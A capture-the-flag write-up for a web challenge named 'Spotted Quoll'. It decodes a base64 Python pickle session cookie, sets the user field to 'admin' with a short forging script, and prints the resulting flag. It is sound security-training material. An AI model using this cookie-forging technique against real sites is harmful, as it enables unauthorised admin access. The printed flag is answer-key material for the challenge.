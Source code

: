 ### Solved by Swappage

Spotted Quoll was another web challenge worth 50 points, the objective is to break in the admin section of the site.

Again, we are dealing with cookies

    HTTP/1.1 200 OK
    Content-Type: text/html; charset=utf-8
    Cache-Control: no-cache
    Date: Sat, 30 Apr 2016 17:41:14 GMT
    Server: Google Frontend
    Content-Length: 0
    Set-Cookie: obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu; Path=/
    Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    Expires: Sat, 30 Apr 2016 17:41:14 GMT
    Connection: close

this time, as the cookie name suggests, we are dealing with a python pickle serialized object base64 encoded.

if we unserialize the object we get the following:

    {'python': 'pickles', 'subtle': 'hint', 'user': None}

we simply replace the *None* with the string 'admin' to bypass the check.

```python
#!/usr/bin/python

import pickle


with open('b.txt','wb') as f:
	bla = {'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}
	pickle.dump(bla, f)
```
let's base64 encode the output of the serialized object and send it to website, so we can login as admin!

Your flag is CTF{but_wait,theres_more.if_you_call}
